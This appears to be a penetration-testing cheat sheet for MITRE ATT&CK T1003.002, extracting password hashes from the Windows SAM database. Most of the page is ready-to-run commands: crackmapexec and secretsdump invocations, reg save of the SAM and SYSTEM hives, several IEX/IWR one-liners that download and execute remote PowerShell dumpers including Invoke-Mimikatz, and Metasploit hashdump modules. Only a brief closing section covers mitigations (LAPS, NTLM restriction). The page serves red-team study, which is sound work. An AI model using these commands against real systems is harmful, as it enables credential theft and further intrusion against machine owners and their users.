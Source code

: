 

# Description:

https://attack.mitre.org/techniques/T1003/002/

# Security Account Manager (SAM)

**ATT\&CK ID:** [T1003.002](https://attack.mitre.org/techniques/T1003/002/)

**Permissions Required:** <mark style="color:red;">**SYSTEM**</mark>

**Description**

Adversaries may attempt to extract credential material from the Security Account Manager (SAM) database either through in-memory techniques or through the Windows Registry where the SAM database is stored. The SAM is a database file that contains local accounts for the host, typically those found with the `net user` command. Enumerating the SAM database requires SYSTEM level access.

## Linux Techniques

### Crackmapexec

```bash
crackmapexec smb <IP> -u <User> -p <Password> --sam

# Use the local-auth parameter when authenticating as a local account
crackmapexec smb <IP> -u <User> -p <Password> --sam --local-auth
```

![](../../../Assets/Pasted%20image%2020250619220402.png)

### Secretsdump

```bash
# Dump from SAM and SYSTEM. Ensure files are in current working directory
secretsdump.py -sam SAM -system SYSTEM LOCAL 
```

![](../../../Assets/Pasted%20image%2020250619220419.png)

## Windows Techniques

```powershell
# Manually save SAM and SYSTEM files (if needed for any tools below)
reg save HKLM\SAM c:\Exfiltration\SAM
reg save HKLM\SYSTEM c:\Exfiltration\SYSTEM
```

### DumpSam

This tool will filter out some default accounts such as Guest and the wdagutilityaccount account from the results.

Github: [https://github.com/The-Viper-One/PME-Scripts/blob/main/DumpSAM.ps1](https://github.com/The-Viper-One/PME-Scripts/blob/main/DumpSAM.ps1)

```powershell
# Download and execute
IEX (IWR -UseBasicParsing https://raw.githubusercontent.com/The-Viper-One/PME-Scripts/main/DumpSAM.ps1)
```

### HiveDump

Github: [https://github.com/tmenochet/PowerDump/blob/master/HiveDump.ps1](https://github.com/tmenochet/PowerDump/blob/master/HiveDump.ps1)

```powershell
# Load into memory
iex (iwr -UseBasicParsing https://raw.githubusercontent.com/tmenochet/PowerDump/master/HiveDump.ps1)

# Dump
Invoke-HiveDump
```

### Mimikatz

Github: [https://github.com/BC-SECURITY/Empire/blob/main/empire/test/data/module\_source/credentials/Invoke-Mimikatz.ps1](https://github.com/BC-SECURITY/Empire/blob/main/empire/test/data/module\_source/credentials/Invoke-Mimikatz.ps1)

<pre class="language-powershell"><code class="lang-powershell"><strong># Load into memory
</strong><strong>IEX (IWR -UseBasicParsing "https://raw.githubusercontent.com/BC-SECURITY/Empire/master/empire/server/data/module_source/credentials/Invoke-Mimikatz.ps1")
</strong><strong>
</strong><strong># Dump from SAM and SYSTEM. Enusre files are in current working directory
</strong>Invoke-Mimikatz -command "lsadump::sam /system:SYSTEM /sam:SAM"

# Dump against the Live Hive Files

Invoke-Mimikatz -Command '"token::elevate" "lsadump::sam"'
</code></pre>

## Metasploit

```bash
# Modules
use post/windows/gather/hashdump
use post/windows/gather/credentials/credential_collector

# Meterpreter Shell
hashdump

# Extension:Kiwi
lsa_dump_s
```

![](../../../Assets/Pasted%20image%2020250619220438.png)

## Mitigation

### LAPS

The "Local Administrator Password Solution" (LAPS) provides management of local account passwords of domain joined computers. Passwords are stored in Active Directory (AD) and protected by ACL, so only eligible users can read it or request its reset.

{% embed url="https://www.microsoft.com/en-us/download/details.aspx?id=46899" %}

### Restrict NTLM Traffic

{% embed url="https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2008-R2-and-2008/jj865668(v=ws.10)?redirectedfrom=MSDN" %}
